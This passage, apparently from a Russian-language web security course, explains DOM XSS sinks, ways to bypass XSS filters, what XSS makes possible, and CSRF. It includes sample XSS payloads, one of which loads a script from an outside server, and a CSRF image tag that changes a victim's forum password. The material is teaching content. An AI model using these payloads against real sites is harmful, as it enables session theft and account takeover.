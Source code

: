 | `eval` | выполняет код, переданный в виде строки. |

Это основные функции, на которые стоит обращать внимание, и которые потенциально могут быть источниками DOM XSS.

## Bypass XSS filter

- самая популярная атака на веб-приложения, от которой разработчики пытаются всячески защититься

Помимо основной защиты политик SOP, CSP и подобных, разработчики фильтруют данные, полученные пользовательским вводом. При этом методы выбираются такие же, как и для других подобных разделов, описанных в предыдущих уроках. Соответственно и методы обхода фильтров аналогичные.

- зменение регистра букв или изменение кодировок символов:<br>`%3CScrIpT%3Ealert%28%27XSS%27%29%3B%3C%2FScrIpT%3E`
- Манипулирование тегами, аналогично применению кавычки в SQL-инъекции:<br>`#"><img src=x onerror=prompt('XSS')>`
- Или просто подключение javascript файл с вашего сервера:`<script src="http://site/js.js"></script>`

Основной список с возможными нагрузками будет предоставлен в отдельном файле. Также стоит ознакомиться с [этим ресурсом](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet), где все подробно описано.

## Какие возможности предоставляет XSS

Обычно на такой вопрос дают ответ: XSS может сделать все, что может сделать JavaScript. Если говорить конкретнее, то возможно следующее:
- Похищение cookie (самое распространенное);
- Перехват ввода логина/пароля;
- Самое безобидное — дефейс («тут был hacker1337»);
- Перехват управления;
- Просмотр веб-камеры пользователей;
- DDOS атака.

## CSRF

> **CSRF (Cross Site Request Forgery)**<br>межсайтовая подделка запроса. Суть заключается в том, чтобы заманить пользователя на вредоносный сайт, который выполнит от имени пользователя запрос на другой, где этот пользователь авторизован.

Представим такую ситуацию. Пользователь зашел на форум http://forum.com/login пообщаться. Ввел логин и пароль. Ему выдалась сессия и куки. Далее злоумышленник присылает ему на форуме сообщение со ссылкой: http://evilSite.com/threads/34/post#1.

Сайт в ссылке является вредоносным и содержит следующий тег:

```html
<img src="http://forum.com/account/changes/password/?new=myNewPassword">
```

Данная ссылка запрашивает изменение пароля у пользователя на тот, что указан в параметре new. Так как у пользователя открыта на форуме сессия и есть сохраненные куки, то злоумышленник меняет пароль пользователя на свой. Возможности этой атаки ограничены правами пользователя и самим веб-сервисом, но помимо описанного выше случая благодаря CSRF можно отправлять письма от лица пользователя, узнавать секретные вопросы для восстановления пароля, добавлять новых пользователей на сервис, если позволяют права. Так же полезно применять атаку совместно с XSS атакой, описанной ранее. Стоит отметить, что в реальности эту атаку довольно сложно осуществить. Все дело в том, что обычно проверяется не только авторизация пользователя в сервисе, но и данные передаваемые им. Осуществляется это благодаря CSRF токенам.
